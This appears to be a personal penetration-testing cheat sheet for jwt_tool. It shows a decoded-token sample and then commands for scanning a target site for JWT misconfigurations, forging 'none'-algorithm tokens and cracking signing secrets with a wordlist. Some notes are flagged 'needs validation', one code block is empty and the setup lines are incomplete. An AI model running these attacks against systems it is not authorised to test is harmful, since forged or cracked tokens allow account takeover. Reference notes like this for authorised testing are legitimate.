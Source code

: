 [[basic use]]
```bash
python3 <path to jwt tool>/jwt_tool <jw_token>
```
Example
```bash
python3 jwt_tool.py <jwt>
```
output
```text
=====================
Decoded Token Values:                          
=====================                                                  

Token header values:                              
[+] alg = "RS256"

Token payload values:                             
[+] sub = "spam@eggs.com"
[+] role = "user"
[+] iat = 1694294657    ==> TIMESTAMP = 2023-09-09 15:24:17 (UTC)
[+] exp = 1694899457    ==> TIMESTAMP = 2023-09-16 15:24:17 (UTC)

Seen timestamps:                                  
[*] iat was seen
[*] exp is later than iat by: 7 days, 0 hours, 0 mins

----------------------                            
JWT common timestamps:                            
iat = IssuedAt                                    
exp = Expires                                     
nbf = NotBefore                                   
----------------------  
```
[[Playbook Attack]] - hunt for common misconfiguration
needs validation!!
```shell
python3 jwt_tool.py -t https://www.Mtarget site>.com/ -rc "Header: <jwt>" -M pb
```
[[Algorithm Attacks]]
generate none tokens
```shell
python3 jwt_tool.py <jwt> -X a
```
Check  multiple algorithms
needs validation
providing the Public Key in PEM format
```shell
python3 jwt_tool.py <jwt> -V -pk public.pem`
```

[[Crack Attack]]
will either return “CORRECT key!”
```shell
jwt_tool <jwt> -C -d /wordlist.txt
```

Crack passwords
```shell


```

Needs a GitHub clone and some packages
```shell
https://github.com/ticarpi/jwt_tool.git
python3 -m pip install termcolor cprint pycryptodomex requests
```
